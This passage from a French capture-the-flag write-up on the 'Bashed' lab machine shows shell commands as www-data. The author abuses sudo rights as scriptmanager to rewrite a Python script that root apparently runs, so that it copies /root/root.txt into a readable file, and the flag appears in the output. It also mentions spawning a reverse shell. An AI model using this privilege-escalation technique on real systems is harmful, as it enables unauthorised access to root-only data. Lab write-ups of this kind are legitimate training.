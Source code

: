 Nous avons ici des droits limités mais voici le contenu du script : 

```bash
www-data@bashed:/var/www/html/uploads $ sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Nous allons le modifier de cette manière :

```bash
www-data@bashed:/var/www/html/uploads $ echo "echo \"f = open('/root/root.txt', 'r')\" > /scripts/test.py"
 > /tmp/cd.txt
www-data@bashed:/var/www/html/uploads $ echo "echo \"g = open('test.txt', 'w')\" >> /scripts/test.py" >> /tmp/cd.txt
www-data@bashed:/var/www/html/uploads $ echo "echo \"g.write(f.read())\" >> /scripts/test.py" >> /tmp/cd.txt
www-data@bashed:/var/www/html/uploads $ echo "echo \"g.close\" >> /scripts/test.py" >> /tmp/cd.txt
www-data@bashed:/var/www/html/uploads $ echo "echo \"f.close\" >> /scripts/test.py" >> /tmp/cd.txt
www-data@bashed:/var/www/html/uploads $ cat /tmp/cd.txt
echo "f = open('/root/root.txt', 'r')" > /scripts/test.py
echo "g = open('test.txt', 'w')" >> /scripts/test.py
echo "g.write(f.read())" >> /scripts/test.py
echo "g.close" >> /scripts/test.py
echo "f.close" >> /scripts/test.py
www-data@bashed:/var/www/html/uploads $ sudo -u scriptmanager /tmp/cd.txt
www-data@bashed:/var/www/html/uploads $ sudo -u scriptmanager cat /scripts/test.py
f = open('/root/root.txt', 'r')
g = open('test.txt', 'w')
g.write(f.read())
g.close
f.close
www-data@bashed:/var/www/html/uploads $ sudo -u scriptmanager cat /scripts/test.txt
testing 123!
www-data@bashed:/var/www/html/uploads $ sudo -u scriptmanager cat /scripts/test.txt
testing 123!
www-data@bashed:/var/www/html/uploads $ sudo -u scriptmanager cat /scripts/test.txt
testing 123!
www-data@bashed:/var/www/html/uploads $ sudo -u scriptmanager cat /scripts/test.txt
testing 123!
www-data@bashed:/var/www/html/uploads $ sudo -u scriptmanager cat /scripts/test.txt
cc4f0afe3a1026d402ba10329674a8e2

```

Bingo ! Nous avons le mot de passe root ! 

 ## Conclusion 

- Le reverse shell été inutile mais au moins on maintiens l'accès a la VM
- On pourrais faire spawn un reverse shell avec python 
- ENUMERATION, là encore c'est la partie la plus importante du challenge !
